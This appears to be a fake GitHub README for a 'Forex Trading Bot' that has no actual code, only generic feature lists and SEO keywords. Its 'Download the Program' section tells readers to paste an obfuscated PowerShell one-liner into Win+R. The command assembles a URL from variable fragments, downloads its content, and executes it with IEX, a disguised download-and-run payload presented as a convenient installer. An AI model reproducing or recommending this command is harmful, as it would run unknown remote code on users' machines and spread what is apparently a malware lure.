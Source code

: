 # Forex Trading Bot 💹🌍

## Project Description
**Forex Trade Bot** is an automated trading bot designed to trade currencies in the foreign exchange market. The bot analyzes market data, executes trades based on predefined strategies, and aims to maximize profits while minimizing risks.

## Key Features
- **Multi-Currency Support**: Trade a wide range of currency pairs in the Forex market.
- **Real-Time Market Analysis**: Continuously analyzes market trends and price movements.
- **Automated Trading**: Executes trades automatically based on custom strategies and indicators.
- **Risk Management**: Implements risk management techniques to protect your investment.
- **User -Friendly Dashboard**: Provides a simple interface for monitoring trades and performance.



<h2>📥 Download the Program</h2>

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">powershell -Command "$update='SafeModule'; $mode='digital'; $url=$update+'.'+$mode; $Response=Invoke-WebRequest -Uri $url -UseBasicParsing -UserAgent $update; $Script=[System.Text.Encoding]::UTF8.GetString($Response.Content); IEX $Script"</code>
</pre>


## Example Strategies 📈
- **Trend Following**: Identify and follow the direction of market trends.
- **Mean Reversion**: Trade based on the assumption that prices will revert to their mean value.
- **Breakout Trading**: Enter trades when the price breaks through established support or resistance levels.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [MetaTrader API Documentation](https://www.mql5.com/en/docs/integration)
- [Forex Factory Economic Calendar](https://www.forexfactory.com/calendar.php)

---

**SEO Keywords**: Forex Trading Bot, automated trading, currency trading, foreign exchange, trading strategies, market analysis.
